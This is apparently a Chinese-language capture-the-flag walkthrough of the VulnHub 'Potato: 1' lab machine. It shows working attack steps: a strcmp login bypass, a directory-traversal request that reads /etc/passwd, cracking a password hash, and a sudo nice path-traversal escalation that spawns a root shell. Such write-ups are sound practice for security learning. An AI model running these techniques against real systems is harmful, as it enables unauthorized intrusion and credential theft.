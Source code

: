 # Potato: 1

2024-5-18 https://www.vulnhub.com/entry/potato-1,529/

difficulty: Easy to medium

## IP

192.168.5.29

## Scan

Open Port -> 22,80,2112

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

先看看 2112 匿名登陆的 ftp 上有什么信息。 index.php.bak 是一个 php 页面的备份，从源码中可以得到用户凭据：admin:potato，但是不知道能不能用。

```
<?php
$pass= "potato"; //note Change this password regularly
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```

pass 字段还被提示最好经常变动。

开始看 80 上的 web 服务，主页上是一个图片，看样子需要使用 gobuster 进行目录扫描：

```
gobuster dir -u http://192.168.5.29/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.5.29/index.php            (Status: 200) [Size: 245]
http://192.168.5.29/admin                (Status: 301) [Size: 312] [--> http://192.168.5.29/admin/]
http://192.168.5.29/potato               (Status: 301) [Size: 313] [--> http://192.168.5.29/potato/]
```

http://192.168.5.29/admin/logs/ 中看到了有 3 个 log 日志，记录着 admin 的密码被改动了。

http://192.168.5.29/admin/ 是登陆页面，输入上面得到的用户凭据，显示用户名或密码错误，看样子上面记录的日志是正确的。

需要对 strcmp 函数进行绕过，使用 BP 对登陆请求进行拦截，然后修改请求数据为 username=admin&password[]=potato ，这样就可以绕过 strcmp 的函数比较，成功登陆到系统，进入到 http://192.168.5.29/admin/dashboard.php 页面，同时在 cookie 中，我们看到了修改之后的密码：serdesfsefhijosefjtfgyuhjiosefdfthgyjh

在 log 标签对应的页面中，我们看到了http://192.168.5.29/admin/dashboard.php?page=log，这里存在文件包含漏洞：

```
POST /admin/dashboard.php?page=log HTTP/1.1
file=../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

我们拿到了/etc/passwd 文件的内容，同时看到 webadmin 用户的密码没有存储在/etc/shadow 中，看看是否能得到用户对应的明文密码，使用 john 解密后得到了明文密码：dragon

使用得到的用户凭据 webadmin:dragon ssh 登陆到系统。

得到 user flag:

```
webadmin@serv:~$ cat user.txt
TGUgY29udHLDtGxlIGVzdCDDoCBwZXUgcHLDqHMgYXVzc2kgcsOpZWwgcXXigJl1bmU
```

sudo -l 查看特殊权限：

```
(ALL : ALL) /bin/nice /notes/*
```

/notes 中有 2 个文件：clear.sh、id.sh，使用 sudo nice /notes/id.sh 后可以看到用户的 id，说明 nice 执行了这个 sh，同时，/notes/\* 存在目录穿越，在/tmp 中创建一个 xx.sh：

```
cd /tmp
touch xx.sh
chmod +x xx.sh
echo '/bin/bash -p' > xx.sh
```

执行 sudo 最终得到了 root 权限：

```
webadmin@serv:/tmp$ sudo nice /notes/../../../tmp/xx.sh
root@serv:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@serv:/tmp# cd /root
root@serv:~# cat root.txt
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
```
